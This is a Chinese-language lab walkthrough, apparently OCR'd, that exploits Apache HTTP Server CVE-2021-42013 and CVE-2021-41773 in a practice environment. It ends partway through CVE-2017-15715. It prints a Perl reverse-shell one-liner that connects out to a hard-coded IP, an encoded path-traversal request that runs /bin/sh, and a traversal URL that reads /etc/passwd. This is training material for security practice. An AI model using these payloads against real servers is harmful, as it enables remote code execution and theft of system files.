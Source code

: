 
### **1、漏洞版本简介**

### 2、cve-2021-42013 

        访问靶场地址。

        抓取数据包可以看到其版本。

        生成一个perl将其复制出来。

```
echo;perl -e 'use 
Socket;$i="47.94.236.117";$p=5566;socket(S,PF_INET,SOCK_STREAM,ge
tprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))))
{open(STDIN,"&gt;&amp;S");open(STDOUT,"&gt;&amp;S");open(STDERR,"&gt;&amp;S");exec("/b
in/sh -i");};'
```

        监听反弹的端口。

        使用post请求访问，抓取数据包，将数据包更改成下面的样式。

```
请求地址：
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh
```

        放包之后发现成功接收到了反弹。

        验证发现其可以成功执行命令。

### 3、cve-2021-41773 

        将靶场环境启动。

        访问靶场地址，可以看到其版本在漏洞影响范围内。

        抓取数据包后将数据包内的地址修改成下面的样式。

```
/icons/.%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/
passwd
```

        放包后可以看到其所有的密码信息。 

        我们可以通过更改url末尾的路径来实现任意文件访问。

### 4、cve-2017-15715 

        将靶场环境启动。

        访问漏洞地址

        抓包可以确定其符合漏洞版本。

        上传一个图片文件后抓取数据包。

        将数据包更改成下面的样式，放包后发现被拦截了。
